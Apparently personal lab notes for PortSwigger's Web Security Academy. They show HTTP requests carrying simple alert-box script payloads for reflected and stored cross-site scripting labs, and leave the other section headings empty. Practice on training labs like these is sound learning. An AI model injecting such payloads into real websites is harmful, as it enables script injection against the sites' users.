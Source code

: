```yaml
---
title: Web Security Academy
description: Notes for the challenges of Web Security Academy
date: 2024-04-01
---
```

# Web Security Academy

## Objective

Keep track of my solutions for each Academy labs that I complete from this point forward. For the simplest ones, I do not expect to have much more details than the payload.

## SQL injection

### Apprentice

### Practitioner

### Expert

## Cross-site scripting

### Apprentice

#### [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into HTML context with nothing encoded

```http
GET /?search=<script>alert("xss")</script> HTTP/2
Host: web-security-academy.net
```
#### [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) into HTML context with nothing encoded

```http
POST /post/comment HTTP/2
Host: web-security-academy.net

csrf=n9tEwCTM1iXg7nP4Rbr6S1WBleMedvrX&postId=6&comment=<script>alert("xss")</script>&name=xss&email=xss@xss.xss&website=
```

####  [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `document.write` sink using source `location.search`
